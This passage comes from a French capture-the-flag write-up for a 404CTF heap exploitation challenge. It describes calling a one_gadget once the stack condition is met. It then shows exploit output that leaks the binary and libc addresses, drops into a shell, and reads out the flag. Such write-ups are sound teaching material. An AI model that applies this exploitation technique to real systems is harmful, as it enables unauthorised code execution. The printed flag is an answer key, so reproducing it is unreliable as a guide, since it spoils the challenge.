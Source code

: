 ```python
```

De cette manière on peut appeller notre one_gadget avec une nouvelle stackframe telle que `[rsp + 0x70] == NULL`.
Et il ne reste plus qu'à lancer le programme final:

```txt
python3 exploit.py HOST=challenges.404ctf.fr PORT=30242

[*] '/home/kali/Desktop/404_Heap/second_stage/une_citation_pas_comme_les_autres_2_2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'/home/kali/Desktop/404_Heap/second_stage'
[*] '/home/kali/Desktop/404_Heap/second_stage/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/home/kali/Desktop/404_Heap/second_stage/ld-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challenges.404ctf.fr on port 30242: Done
[*] Binary mapped @ 0x55e02e400000
[*] Libc mapped @ 0x7fe803a08000
[*] One gadget @ 0x7fe803b122fc
[*] Switching to interactive mode
...
(Cyrano prends votre place et celle de Christian et poursuit la conversation avec Roxane.)

(Vous ramassez des cailloux que vous jettez dans les vitres.)

[Roxane] : Qui donc m’appelle ?
[Christian] : Moi.
[Roxane] : Qui, moi ?
[Christian] : Christian.
[Roxane] : C'est vous ?
[Christian] : Je voudrais vous parler.
[Roxane] : Non ! Vous parlez trop mal. Allez-vous-en !
[Christian] : De grâce !...
[Roxane] : Non ! Vous ne m’aimez plus !

$ ls
flag.txt
une_citation_pas_comme_les_autres_2_2
$ cat flag.txt
404CTF{CYr4N0_713N7_14_CH4ND3113_M415_V0U5_3735_D3V3NU_UN_607}$
```
